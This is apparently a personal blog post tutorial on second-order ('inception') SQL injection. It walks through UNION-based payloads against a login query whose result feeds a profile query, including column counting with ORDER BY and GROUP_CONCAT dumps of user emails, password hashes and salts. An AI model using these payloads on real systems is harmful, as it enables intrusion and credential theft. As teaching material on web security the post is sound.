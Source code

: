 ```yaml
---
layout: post
title: "Nested SQL Injections"
language: "sql"
tags:
- sql-injection
- ethical-hacking
---
```

I recently did something along this line, and this technique is really cool. (I prefer to call it "inception" injection). Its pretty easy once you figure it out, so here it goes.

If the result of the first query is used as an input in the second query, and the first query is vulnerable, we can use the output as a "input variable" into the second query itself. This would be useful in places where the second query has a better display method than the first one (for instance length restrictions).

##Query 1:

{% highlight sql %}
SELECT * FROM users WHERE email='$email' AND password = '$pass'
{% endhighlight sql %}

This query is usually accompanied with:

{% highlight php %}
<?php
$_SESSION['email'] = $row['username'];
{% endhighlight php %}

##Query 2:

Assuming something like a profile page:
{% highlight sql %}
SELECT * FROM user_details WHERE email='{$_SESSION['email']}'
{% endhighlight sql %}
#Injection

Injecting the first query (basic)

{% highlight sql %}
SELECT * FROM users WHERE email='user@email.com' # AND password=''
{% endhighlight sql %}

Everything after # should be treated as a comment. Hence forward, I would not write stuff after # for brevity.

Thinking backwards, we could create a custom query for user_details:

{% highlight sql %}
SELECT * FROM user_details WHERE email='' UNION SELECT * FROM user_details #
{% endhighlight sql %}

This would show the details of the first user in the profile page. Let's think a bit larger:

{% highlight sql %}
SELECT * FROM user_details WHERE email='' UNION SELECT GROUP_CONCAT(email), GROUP_CONCAT(password) FROM user_details #
{% endhighlight sql %}

Usually, this won't work (different number of columns in results). You'd have to use ORDER BY to guess the number of columns. Writing only the `UNION` part now:

{% highlight sql %}
UNION SELECT * FROM user_details ORDER BY 1 #
UNION SELECT * FROM user_details ORDER BY 2 #
UNION SELECT * FROM user_details ORDER BY 3 #
UNION SELECT * FROM user_details ORDER BY 4 # -- Gives Error
{% endhighlight sql %}

So we realize that user_details has 3 columns. Coming back, we could do:

{% highlight sql %}
UNION SELECT GROUP_CONCAT(email), GROUP_CONCAT(password), 3 FROM users #
{% endhighlight sql %}

That would give us details upto 1000 characters (GROUP_CONCAT limits). To mitigate those limits:

{% highlight sql %}
UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0)
{% endhighlight sql %}	

Change the OFFSET and you're ready to roll.

##Inception Injection

This was all a theoritical attack on the second query. Granted you could do lots of stuff from here on the first query, but it is far less responsive (Doesn't give much output). The only thing you can modify is the email, which offers you a single field. 

However, the only attack vector (`$_SESSION`) for the second query is not directly controlled, but comes instead from the result of the first query. So to perform this attack on the second query, we take the second injection, and use it inside the first one.

{% highlight sql %}
SELECT * FROM users WHERE email='' UNION SELECT * FROM users # -- will give us first user
SELECT * FROM users WHERE email='' UNION SELECT * FROM users  ORDER BY 1 # -- keep increasing to get number of columns
SELECT * FROM users WHERE email='' UNION SELECT 1,2,3 FROM users # -- This would let us know which column corresponds to the email id
SELECT * FROM users WHERE email='' UNION SELECT "<inject second query here>",2,3 FROM users # -- This would let us know which column corresponds to the email id
{% endhighlight sql %}	

Although we have been writing injection code starting with UNION, it actually would start with ' UNION... Using our last injection code for the second query here, it becomes:

{% highlight sql %}
SELECT * FROM users WHERE email='' UNION SELECT "' UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0) #",2,3 FROM users #
{% endhighlight sql %}	

What happens on the server side:

{% highlight php %}
<?php
	$_SERVER['email'] = "' UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0) #"
{% endhighlight php %}	

and the second query becomes:

{% highlight sql %}
SELECT * FROM user_details WHERE email='' UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0) #
{% endhighlight sql %}	

Note that we still have to keep a # at the end of the inner query. There are portions after # which we still need to discard. Feel free to contact me if you have any further doubts. I am sure this is a well-known and used by people already, but this was something new to me.
